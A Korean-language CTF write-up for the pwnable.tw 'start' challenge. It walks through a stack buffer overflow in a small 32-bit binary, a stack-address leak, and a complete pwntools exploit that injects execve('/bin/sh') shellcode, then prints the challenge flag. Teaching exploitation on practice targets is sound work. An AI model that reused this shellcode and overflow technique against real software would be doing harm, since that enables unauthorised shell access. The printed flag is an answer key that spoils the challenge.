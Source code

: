 ```yaml
---
layout: post
title: "[pwnable.tw] start"
date: 2018-05-25 04:44
categories: "[Pwn]pwnable.tw"
tags: rotles98
---
```

>## Start [100 pts]
### Just a start.
### `nc chall.pwnable.tw 10000`
### [start](https://pwnable.tw/static/chall/start)

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/pwnable.tw/start/01.png)
{: refdef}

32bit고 보호기법은 안 걸려있네요!

{: refdef: style="text-align: center;"}
![disassemble](/img/pwnable.tw/start/02.png)
{: refdef}

IDA로 열어 보면 `_start`밖에 없는 간단한 프로그램 입니다.

int 0x80을 사용해 함수를 호출하는데

[이 사이트](https://syscalls.kernelgrok.com)를 보면 int 0x80에서 레지스터가 어떻게 사용되는지 알 수 있어요.

```c
char buf[14] = "Let's start the CTF:"

write(1, buf, 0x14);
read(1, buf, 0x3C);
```

대충 c언어로 바꿔보면 위처럼 나오네여

- - -
# 0x01. 공격 방법

자, 이제 생각해봅시다아아

딱 봐도 bof가 가능하겠네요!

음... NX가 안걸려있으니까 쉘코드를 사용할게요.

1. 스택 주소 구하기

2. 스택에 쉘코드 삽입

3. 해당 주소로 리턴

이 순서로 공격할게요.

- - -
# 0x02. 정보 수집

## 1. 스택 주소 구하기

```asm
push "Let's start the CTF:"
mov ecx, esp
mov dl, 14h
mov bl, 1
mov al, 4
int 80h
xor ebx, ebx
mov dl, 3Ch
mov al, 3
int 80h
add esp, 14h
retn
```

`read`는 끝나면 `add esp, 14h`로 스택을 정리해주네여

그럼 `read`가 끝나고 스택도 정리한 후에 다시 `write`를 실행시키면 정리된 스택이 출력되고 다시 그 부분부터 `read`가 또 실행될거에여

호다다닥 해봅시다.

```python
from pwn import *
context.log_level = "debug"

s = remote("localhost", 4444)

s.recv()

dummy = "A"*0x14

payload = dummy
payload += p32(0x08048087)

s.send(payload)
```


>{: refdef: style="text-align: center;"}
![stack_leak](/img/pwnable.tw/start/03.png)
{: refdef}
누가봐도 스택처럼 생긴 `0xffae9020`이 바로 나와주네요!<br />
혹시 모르니 gdb로 맞는지 확인해 봅시닷.<br />
{: refdef: style="text-align: center;"}
![gdb_check](/img/pwnable.tw/start/04.png)
{: refdef}

- - -
# 0x03. 익스플로잇

24byte 쉘코드를 사용했습니다아아

```python
from pwn import *
context.log_level = "debug"

#HOST = "localhost"
HOST = "chall.pwnable.tw"
#PORT = 4444
PORT = 10000

############################################

s = remote(HOST, PORT)

elf = ELF("./start")
#libc = ELF("./")
pause()

############################################

main_addr = 0x08048060
func_write = 0x08048087

shell = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
shell += "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99"
shell += "\xb0\x0b\xcd\x80"

dummy = "A"*20

############################################

payload = dummy
payload += p32(func_write)

s.recvuntil("Let's start the CTF:")
s.send(payload)

stack_addr = u32(s.recv(4))
s.recv()
print "[*] stack_addr : " + hex(stack_addr)

payload = dummy
payload += p32(stack_addr + 0x14)
payload += shell

s.send(payload)

s.interactive()
```

### FLAG{Pwn4bl3_tW_1s_y0ur_st4rt}